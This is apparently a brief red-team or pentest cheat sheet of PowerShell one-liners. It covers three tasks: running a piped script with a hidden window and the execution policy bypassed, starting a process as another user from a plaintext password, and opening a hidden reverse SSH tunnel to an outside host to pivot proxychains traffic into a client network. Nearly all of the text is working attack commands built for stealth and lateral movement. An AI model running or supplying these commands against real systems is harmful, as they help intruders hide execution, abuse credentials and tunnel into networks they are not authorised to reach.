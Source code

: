 ### start and creates a new process (detached)
```
Start-Process -wi 1 -FilePath "cmd" -ArgumentList "/c type <powershellScript> | powershell -WindowStyle Hidden -exec bypass"
```

### start process as another user (-wi 1 to minimize window pop up)
```
$scp = ConvertTo-SecureString '<password>' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $scp); start-process -wi 1 -FilePath "cmd.exe" -ArgumentList "/c <command>" -Credential $cred
```

### forward proxychains traffic into client network, will provoce short opening of a powershell window
```
Start-Process -wi 1 -FilePath "powershell" -ArgumentList " -w hidden -c ssh -o 'StrictHostKeyChecking=no' -i .\<privateKey> -N -R 9050 <user>@<rhost>"
```

